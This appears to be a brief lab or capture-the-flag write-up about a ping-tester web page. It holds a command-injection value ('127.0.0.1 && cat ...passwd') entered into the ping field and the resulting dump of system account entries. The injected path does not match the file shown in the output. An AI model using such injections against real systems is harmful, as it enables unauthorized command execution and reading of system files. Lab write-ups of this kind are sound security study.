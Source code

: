 File found: /index.php - 200

Dir found: / - 200

Dir found: /icons/ - 403

Dir found: /icons/small/ - 403

Nothing of note

  

##Site

It's a ping connection tester

[https://i.imgur.com/pI8h8AF.png](https://i.imgur.com/pI8h8AF.png)

Maybe I can do command injection / RCE

Running command behind ping

127.0.0.1 && cat /usr/passwd 

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.

64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.027 ms

64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.022 ms

64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.037 ms

64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.028 ms

  

--- 127.0.0.1 ping statistics ---

4 packets transmitted, 4 received, 0% packet loss, time 3062ms

rtt min/avg/max/mdev = 0.022/0.028/0.037/0.007 ms

root:x:0:0:root:/root:/bin/bash

daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

bin:x:2:2:bin:/bin:/usr/sbin/nologin

sys:x:3:3:sys:/dev:/usr/sbin/nologin

sync:x:4:65534:sync:/bin:/bin/sync

games:x:5:60:games:/usr/games:/usr/sbin/nologin

man:x:6:12:man:/var/cache/man:/usr/sbin/nologin

lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin

mail:x:8:8:mail:/var/mail:/usr/sbin/nologin

news:x:9:9:news:/var/spool/news:/usr/sbin/nologin

uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin

proxy:x:13:13:proxy:/bin:/usr/sbin/nologin

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin

